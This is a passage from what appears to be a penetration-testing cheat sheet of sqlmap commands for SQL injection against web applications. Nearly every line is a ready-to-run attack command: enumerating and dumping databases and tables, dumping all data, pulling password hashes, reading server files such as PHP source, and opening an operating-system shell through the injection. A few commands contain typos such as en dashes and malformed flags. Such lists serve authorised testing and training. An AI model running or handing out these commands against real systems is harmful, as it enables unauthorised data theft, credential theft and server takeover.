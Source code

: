          `sqlmap -u http://$ip --crawl=1`
         
         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
         
         
      - SQLMap Search for databases against a suspected GET SQL Injection 
      
        `sqlmap –u http://$ip/blog/index.php?search –dbs`

      - SQLMap dump tables from database oscommerce at GET SQL injection
      
        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `
      
      - SQLMap GET Parameter command  
      
         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `
          
      - SQLMap Post Username parameter
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`
           
      - SQL Map OS Shell
            
          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`
            
       - Automated sqlmap scan
       
          `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php"`
             
        - Targeted sqlmap scan
        
           `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`
             
         - Scan url for union + error based injection with mysql backend and use a random user agent + database dump  
         
            `sqlmap -o -u http://$ip/index.php --forms --dbs  `
               
            `sqlmap -o -u "http://$ip/form/" --forms`
                
          - Sqlmap check form for injection  
          
             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`
                 
           - Enumerate databases  
           
              `sqlmap --dbms=mysql -u "$URL" --dbs`
                
            - Enumerate tables from a specific database  
                  
              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `
                  
            - Dump table data from a specific database and table  
            
               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `
                   
            - Specify parameter to exploit  
             
               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `
                    